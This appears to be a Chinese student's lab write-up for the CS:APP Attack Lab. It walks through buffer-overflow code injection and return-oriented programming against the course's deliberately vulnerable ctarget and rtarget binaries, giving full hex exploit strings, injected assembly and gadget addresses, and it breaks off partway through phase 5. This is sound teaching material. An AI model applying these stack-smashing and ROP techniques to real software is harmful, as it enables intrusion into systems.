# 从零开始的Attack Lab

> [!CAUTION]
> 
> **本笔记仅供参考，请勿抄袭。**

## 声明
本笔记的写作初衷在于，笔者在做Attack Lab的时候受到Arthals学长很大启发，同时25Fall的计算机系统导论课程改制增加了10分的Lab测试（虽然往年的期中期末中也会有一两道Lab相关选择题，但分值不大）。故将心路历程写成此笔记，以便复习，并供后续选课同学参考。

## Attack Lab简要介绍
Attack Lab是《计算机系统导论》课程的第3个Lab，对应教材第三章《程序的机器级表示》。该Lab旨在加深同学们对缓冲区攻击和防护的理解，以及进一步加强汇编代码阅读能力以及GDB调试工具的运用。

在Attack Lab中，需要完成6次攻击(即phase 1 $\sim$ phase 6)，主要思路是通过向缓冲区输入相关字符串，来引导程序跳转至程序规定的函数(即``touch1、touch2和touch3``)，并完成相关要求。同时，对于下载的每个``target x``包，系统都会发放不同的``cookie.txt``作为攻击依据。与``Bomb Lab``不同，错误发起攻击将不会受到任何~~处分~~惩罚。

上述六个``phase``共分为三个``level``，其中phase 1 $\sim$ phase 3归为``level 1``，需要对``ctarget``发起攻击，基本思路是进行代码注入(CI)攻击。phase 4 $\sim$ phase 5归为``level 2``，需要对``rtarget``发起攻击，基本思路是进行返回导向编程(ROP)攻击。phase 6归为``level 3``，需要对``starget``发起攻击，基本思路也是进行返回导向编程(ROP)攻击，但是攻击对象本身具有金丝雀保护。另外，进行ROP攻击的三个phase都有gadget(含义下面会阐述)限制。

值得一提的是，phase 1 $\sim$ phase 4的总分为90分，而phase 5和phase 6都为5分(事实上，原生Lab并不存在phase 6，其为PKU魔改)。因此，如果时间实在紧迫，可以仅做完phase 1 $\sim$ phase 4，以获取大部分分数。这个Lab的难度大致为中低，笔者耗时大概为6 $\sim$ 7小时。

## 在动手之前
### GDB常用指令&美化
- 见笔者的上篇博文[elainafan-从零开始的Bomb Lab](https://github.com/elainafan/Introduction-to-Computer-Systems-2025Fall-PKU/blob/main/02%20Bomb%20Lab/README.md)
### 何为ROP攻击？
ROP攻击，全称 **Return-oriented Programming Attack**，即不注入任何攻击代码，完全按照执行现有代码来进行攻击。用人话说，就是"断章取义"。

其策略是在现有程序中识别由一条或多条指令后接``ret``指令组成的字节序列，这样的序列被称为``gadget``。以下列代码为例：

```asm
0000000000400f15 <setval_210>:
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
```

其看上去人畜无害，但是可以从二进制编码中提取出``48 89 c7 c3``这个序列，在二进制编码中，其含义为``movq %rax,%rdi ret``，此时含义完全发生了变化！

在攻击时，只需要向缓冲区输入gadget的地址，就可以调用相对的gadget，调动程序进行完全不同的操作，这就是ROP攻击。

下列是常见的gadget二进制代码：









笔者需要提醒的是，与前三个表格不同，第四个表格与``90(nop)``一样，通常用于在攻击gadget之间充当无意义语句。

同时，不要忘记，``movl``会将目的数的高32位置零。

### 如何发起攻击？
如上文所述，在Attack Lab中，攻击分为两种形式：CI攻击和ROP攻击。

但是无论是哪种攻击形式，都需要编写相关的输入字符串，然后将字符串根据十六进制``ASCII``码翻译为真实二进制输入数据流，再运行程序，让它从二进制文件中读取输入数据。

以下列代码为例：

```
./hex2raw < p1.txt > ans1.txt # p1.txt是编写的写有十六进制的文件，将其转为二进制文件ans1.txt
./ctarget -i ans1.txt # 运行ctarget，让它从ans1.txt中读取输入
```

在这之外，有的phase还多了几步，需要先编辑好想进行攻击的汇编代码，再将其转化为十六进制编码gadget，找出gadget地址，将它编写进十六进制文件。

以下列代码为例：

```
gcc -c p2.s # 编译
objdump -d p2.o > p2.byte # 翻译为字节码
```

最后，笔者需要提醒的是，无论何时都不要在编写的16进制文件中出现``0x0a``，这会使``get``函数中断输入，从而导致缓冲区代码注入无法成功完成。

### 正则表达式搜索
在ROP攻击的三个phase中，找到合适的garget是件大体力活，掌握正则表达式搜索可以使工作效率事半功倍。

笔者在做之前也不会，建议询问AI或者查阅相关资料，笔者将在下面的phase中边做边讲解需要使用的正则表达式。
### 课本相关知识
- 汇编代码的相关含义
- 缓冲区溢出的攻击原理及其防护方式
- GDB调试工具的使用
## 开始动手！
### Phase 1
首先，运行下列指令，对``ctarget``进行反汇编，得到其汇编码文件:

```
objdump -d ctarget > ctarget.s
```

根据``writeup``，需要让``ctarget``文件在执行其``return``语句时执行``touch1``的代码，而不是返回到``test``。

先阅读``test``函数的代码：

```asm
0000000000401f06 <test>:
  401f06:	f3 0f 1e fa          	endbr64 # 防ROP攻击
  401f0a:	48 83 ec 08          	sub    $0x8,%rsp # 分配8字节空间
  401f0e:	b8 00 00 00 00       	mov    $0x0,%eax # 将%eax置为0
  401f13:	e8 92 fd ff ff       	call   401caa <getbuf> # 调用getbuf函数
  401f18:	89 c2                	mov    %eax,%edx # 将getbuf的结果赋给%edx
  401f1a:	48 8d 35 d7 22 00 00 	lea    0x22d7(%rip),%rsi        # 4041f8 <_IO_stdin_used+0x1f8> # 取出字符串给%rsi
  401f21:	bf 02 00 00 00       	mov    $0x2,%edi # %edi=2
  401f26:	b8 00 00 00 00       	mov    $0x0,%eax # %eax=0
  401f2b:	e8 60 f2 ff ff       	call   401190 <__printf_chk@plt> # 调用printf函数
  401f30:	48 83 c4 08          	add    $0x8,%rsp # 释放空间
  401f34:	c3                   	ret
```

再查阅``getbuf``函数的代码：

```asm
0000000000401caa <getbuf>:
  401caa:	f3 0f 1e fa          	endbr64
  401cae:	48 83 ec 28          	sub    $0x28,%rsp # 分配40字节空间
  401cb2:	48 89 e7             	mov    %rsp,%rdi # 把%rsp赋给%rdi 
  401cb5:	e8 57 03 00 00       	call   402011 <Gets> # 调用gets
  401cba:	b8 01 00 00 00       	mov    $0x1,%eax # 将$eax置为1
  401cbf:	48 83 c4 28          	add    $0x28,%rsp # 释放空间
  401cc3:	c3                   	ret 
```

由课本3.10.3节的以下内容，可以简单判断出栈的结构：



画出栈的结构为

```
--------------- 64
| test返回地址 |
--------------- 56
| test开的空间 |
--------------- 48 
|  返回地址    |
--------------- 40
|  缓冲区输入  |
--------------- 0 <-- %rsp
```

因此，由于原函数使用的是``gets``函数，只需要让缓冲区溢出，并且覆盖``getbuf``的返回地址，使其跳转到``touch1``即可。

找到``touch1``的地址为``0x401d36``，于是有答案为

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
36 1d 40 00 00 00 00 00 # 注意小端法存储
```

新建``p1.txt``文件，将上述答案写入，打开终端，运行以下指令：

```
./hex2raw < p1.txt > ans1.txt
./ctarget -i ans1.txt
```

得到以下输出，表示已经完成了``phase 1``：



### Phase 2
根据``writeup``，需要让``ctarget``文件执行``touch2``的代码，而不是返回``test``。同时，需要将``touch2``传进的参数(存放在``%rdi``中)为``cookie``。

笔者的提醒是，如``writeup``中所言，需要将栈指针对齐到``16字节``，同时不要使用``jmp``或者``call``作为攻击代码。

很显然，这个phase不能简单地使用缓冲区溢出来变换地址，而是应该采用编写汇编代码，再转换为16进制文件的方法来实现。

但是，要怎么利用缓冲区内的代码呢？如果把转换后的16进制码设为溢出码的话，那可能会破坏更深层的结构。

所以，正确的做法是，缓冲区内存攻击代码，而把``getbuf``的返回值设为栈顶指针地址，从而当``getbuf``返回时，切到栈顶接着执行缓冲区代码(由于栈的出栈入栈只是栈指针的变动，若无特殊情况不会影响存放的值)。

也就是如课本3.10.3节所言，"通常，输入给程序一个字符串，这个字符串包含一些可执行代码的字节编码，称为攻击代码。另外，还有一些字节会用一个指向攻击代码的指针覆盖返回地址。那么，执行``ret``指令的效果就是跳转到攻击代码"。

于是，先找出缓冲区的起始点，阅读``getbuf``的代码：

```asm
0000000000401caa <getbuf>:
  401caa:	f3 0f 1e fa          	endbr64
  401cae:	48 83 ec 28          	sub    $0x28,%rsp # 分配40字节空间
  401cb2:	48 89 e7             	mov    %rsp,%rdi # 把%rsp赋给%rdi 
  401cb5:	e8 57 03 00 00       	call   402011 <Gets> # 调用gets
  401cba:	b8 01 00 00 00       	mov    $0x1,%eax # 将$eax置为1
  401cbf:	48 83 c4 28          	add    $0x28,%rsp # 释放空间
  401cc3:	c3                   	ret 
```

需要在栈指针被更新后，找出它的地址，需要把断点打在``mov %rsp,%rdi``上。

运行以下代码：

```
gdb ctarget
b *(getbuf+8) 
r // 注意这个Lab没有配置./gdbinit文件，需要手动添加
layout asm
layout regs
```



即缓冲区的起始地址为``0x55664bd8``。

同时，通过查找得``touch2``的起始地址为``0x401d6a``，同时笔者的``cookie``为``0x23a8da61``，得到以下汇编代码：

```asm
movq $0x23a8da61,%rdi
pushq $0x401d6a
ret
```

将它写入``p2.s``中，并运行以下指令：

```
gcc -c p2.s # 编译
objdump -d p2.o > p2.byte # 翻译为字节码
```

得到``p2.byte``：

```asm
p2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 61 da a8 23 	mov    $0x23a8da61,%rdi
   7:	68 6a 1d 40 00       	push   $0x401d6a
   c:	c3                   	ret
```

也就是，答案应该如下所示：

```
48 c7 c7 61 da a8 23 68 
6a 1d 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d8 4b 66 55 
```

将其写入``p2.txt``，打开终端，运行以下指令：

```
./hex2raw < p2.txt > ans2.txt
./ctarget -i ans2.txt
```

得到以下输出，表示已经完成了``phase 2``：


### Phase 3
根据``writup``，需要让``ctarget``文件执行``touch3``的代码，而不是返回``test``。同时，需要让``touch3``传进的参数是``cookie``的字符串表示。

找一张``ASCIL码``图，将上文所述``cookie``翻译为``32 33 61 38 64 61 36 31``。

``writeup``中给出了``hexmatch``和``touch3``函数的大致结构：

```c
/* Compare string to hex representation of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3;      /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

大概意思就是，将``sval``作为参数传进去后，进入``hexmatch``。这个函数
- 首先分配一个长度为``110``的字符数组，然后再从其中随机选取一个位置作为``s``。
- 接着，将传进的``val``，也就是``cookie``，复制起始的八个字节，到``s``的起始位置。
- 比较``sval``和``val``，若相等则返回真。

由于``touch3``是通过覆盖``getbuf``的返回地址得来的，因此其栈帧和``hexmatch``的栈帧紧接着在缓冲区下方，而猜测当``s``被随机得过大，就有可能覆写原先存在缓冲区的东西。

不过，好消息是，``hexmatch``中分配内存的语句为``add $0xffffffffffffff80,%rsp``，即``rsp-=128``，而还存在``touch``的栈帧，猜测在原本的缓冲区中，有一些它``无法reach``的东西。

按照phase 2的思路，找出touch3的地址``0x401e90``编写以下代码：

```asm
movq $0x23a8da61,%rdi
pushq $0x401e90
ret
```

将它写入``p3.s``中，并运行以下指令：

```
gcc -c p3.s
objdump -d p3.o > p3.byte 
```

将获得的答案写到``p3.txt``中，得到

```
48 c7 c7 61 da a8 23 68 
90 1e 40 00 c3 3f 3f 3f
3f 3f 3f 3f 3f 3f 3f 3f
3f 3f 3f 3f 3f 3f 3f 3f
3f 3f 3f 3f 3f 3f 3f 3f // 充位代码换为3f便于观察是否顶掉
d8 4b 66 55 
```

然后，运行以下代码，观察缓冲区的变化

```
./hex2raw < p3.txt > p3a.txt 
gdb ctarget
b touch3
set args -i p3a.txt
r
layout asm
layout regs
```

在``touch3``处，运行``x/20x 0x55664bd8``，观察到存在缓冲区的值还未被覆写。



一直运行``si``命令，发现缓冲区的值被覆写了，符合第一个猜测！



再观察这两张图，发现``0x55664c18``处的八个字节似乎没有被覆写，如果真的符合第二个猜测，也许可以尝试把所需命令存在这里，然后将``%rdi``这个指针赋为``0x55664c18``。

重新编写``p3.s``为以下代码：

```asm
movq $0x55664c18,%rdi
pushq $0x401e90
ret
```

重新执行上面的步骤，得到``p3.txt``：

```
48 c7 c7 18 4c 66 55 68 
90 1e 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d8 4b 66 55 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
32 33 61 38 64 61 36 31
```

打开终端，运行以下指令：

```
./hex2raw < p3.txt > ans3.txt
./ctarget -i ans3.txt
```

得到以下输出，表示已经完成了``phase 3``：


### Phase 4
首先，运行下列指令，对``rtarget``进行反汇编，得到其汇编码文件:

```
objdump -d rtarget > rtarget.s
```

根据``writeup``，只能使用``movq``和``popq``，以及``ret``和``nop``的gadget。并且使用两个``gadget``就能完成这次攻击。这个phase要求实现与``phase 2``相同的攻击形式，即跳转到``touch2``并且将``rdi = cookie``。

同时，找到的``gadget``只能在``start_farm``和``end_farm``的范围内，否则本地通过，而远程为``零分``。

运行下列指令，将``farm.c``转为字节码。

```
gcc -c -Og farm.c # 这里的Og是必须的
objdump -d farm.o > farm.s
```

下面，基于``ChatGPT``，笔者将给出必须使用``-Og``的原因：

编译器在不同优化等级下会改变代码结构和指令序列，比如寄存器的分配不同，指令合并消除等等。

``-Og``的含义为，开启对调试友好的一组优化，生成的汇编保留了源代码的结构，又和目标二进制使用的``优化等级``一致。

而若不开启``-Og``，或者使用``-O2/-O3``等等优化，就会使它们的优化等级不一致，导致在寻找``gadget``时找不到的情况。此时，就要花大功夫到``rtarget.s``中取查找，还不能保证找到的指令在``start_farm``和``end_farm``的范围内。

先通过正则表达式将``farm.s``转换为容易观察的形式。

在``VsCode``内按下``ctrl+H``，将``.+:\t(([0-9a-f]{2} )+).+``全部替换为``$1``，``(([0-9a-f]{2} )+)\n``全部替换为``$1``，就可得到下图效果：



先明确，``popq``指令可以将目的字符串弹到某个字符串中，因此首先查找``popq``相关代码。

在``VsCode``内按下``ctrl+F``，使用正则表达式查找模式，输入以下正则表达式``5[89a-f] c3``，发现啥都没找到。

回想前面的提示，发现可以使用``nop``指令作为中继指令，于是查找以下正则表达式为``5[89a-f] 90 c3``，查找得到：

```asm
0000000000000048 <addval_392>:
f3 0f 1e fa 8d 87 35 58 90 c3 c3 
```

即``popq %rax``指令，在``rtarget``中查找这个函数(因为需要对它发起攻击，直接使用``farm``得到的地址不正确)，得到所需的``gadget``为``0x401fbd``

接着查找是否存在``movq %rax,%rdi``指令，即查找``48 89 c7``，查找得到：

```asm
000000000000000a <getval_173>:
f3 0f 1e fa b8 48 89 c7 90 c3 
```

在``rtarget``中查找这个函数，得到所需的``gadget``为``0x401f73``。

于是，编写汇编代码为：

```
popq %rax 
ret
mov %rax,%rdi 
ret
```

查找得到``touch2``的地址为``0x401cf8``，结合上面的地址，得到以下答案：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
bd 1f 40 00 00 00 00 00
61 da a8 23 00 00 00 00
73 1f 40 00 00 00 00 00
f8 1c 40 00 00 00 00 00
```

将它写入``p4.txt``，打开终端，运行下列指令：

```
./hex2raw < p4.txt > ans4.txt
./rtarget -i ans4.txt
```

得到以下输出，表示已经完成了``phase 4``：


### Phase 5
根据``writeup``，需要对``rtarget``进行``ROP``攻击，以调用``touch3``函数，并且传入一个指向``cookie``的指针。

同时，在这个``phase``中，除了``phase 4``中的``gadget``，还可以使用``movl``和运算形式的``gadget``。官方答案称需要使用8个``gadget``。

在这个phase中，需要获取存入的字符数组对应的指针，而手上的地址，只有``%rsp``跟其紧密相关，因此考虑使用``movq %rsp,%rdi``或者间接传递，将其值存入``%rdi``中。

然后，考虑将存入缓冲区的偏移量(需要自己计算)加载到某个寄存器中(使用``popq``指令)。

接着，用``leaq``语句将偏移量、初始栈指针结合，得到``%rdi``中指向存入的字符串的指针。

最后，输入``touch3``的地址，跳转到``touch3``。

直接上手查找，在``farm.s``中查找``48 89 e[0-7] c3``，得到``48 89 e0 c3``，即``movq %rsp,%rax``。

在``rtarget``中查找它的地址，得到为``0x401fda``。

考虑是否存在``movq %rax,%rdi``,刚好上个``phase``有用到，直接抄下来为``0x401f73``。

同样，由上个phase,抄下一个``popq %rax``，它的地址为``0x401fbd``。

然后，新的一行填下需要的偏移量，待会再计算。

